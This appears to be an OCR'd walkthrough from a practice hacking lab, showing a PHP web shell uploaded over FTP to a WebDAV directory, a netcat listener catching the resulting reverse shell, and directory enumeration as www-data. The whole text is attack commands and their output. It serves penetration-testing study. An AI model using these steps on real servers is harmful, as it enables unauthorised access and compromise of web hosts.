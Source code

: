 ```
ftp> cd dav
250 Directory successfully changed.
ftp> pwd
Remote directory: /var/www/dav
ftp> put shell.php
local: shell.php remote: shell.php
200 EPRT command successful. Consider using EPSV.
150 Ok to send data.
100% |***********************************************************************************************************************************************|  5491       43.27 MiB/s    00:00 ETA
226 Transfer complete.
5491 bytes sent in 00:00 (1.04 MiB/s)
```

```
root@attackdefense:~# nc -nvlp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

```
http://10.0.22.175/dav/
http://10.0.22.175/dav/shell.php
```

```
root@attackdefense:~# nc -nvlp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.0.22.175.
Ncat: Connection from 10.0.22.175:44984.
Linux d1d6a9361621 5.4.0-1048-aws #50-Ubuntu SMP Mon May 3 21:44:17 UTC 2021 x86_64 GNU/Linux
 07:21:18 up 23 min,  1 user,  load average: 0.00, 0.00, 0.03
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: no job control in this shell
sh-3.2$ /bin/bash -i
/bin/bash -i
bash: no job control in this shell
www-data@d1d6a9361621:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@d1d6a9361621:/$ cd /root
cd /root
www-data@d1d6a9361621:/root$ ls
ls
Desktop
reset_logs.sh
vnc.log
www-data@d1d6a9361621:/root$ cd /var/www
cd /var/www
www-data@d1d6a9361621:/var/www$ ls
ls
dav
dvwa
index.php
mutillidae
phpMyAdmin
phpinfo.php
test
tikiwiki
tikiwiki-old
twiki
```